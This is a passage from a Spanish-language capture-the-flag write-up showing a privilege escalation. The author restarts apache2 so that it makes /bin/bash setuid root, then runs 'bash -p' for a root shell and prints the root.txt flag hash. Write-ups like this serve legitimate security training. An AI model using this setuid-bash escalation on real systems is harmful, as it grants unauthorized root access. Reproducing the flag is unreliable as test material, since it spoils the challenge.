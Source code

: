 Lo guardamos y ahora haremos lo siguiente para que se ejecute como `root`.

```shell
sudo service apache2 restart
```

Una vez hecho esto, veremos si ha funcionado.

```shell
ls -la /bin/bash
```

Info:

```
-rwsr-xr-x 1 root root 1446024 Mar 31 10:41 /bin/bash
```

Por lo que vemos funciono, asi que haremos lo siguiente.

```shell
bash -p
```

Y con esto ya seremos `root`, por lo que leeremos la flag.

> root.txt

```
e180269a01be15fc0b889bd34fd93c5c
```
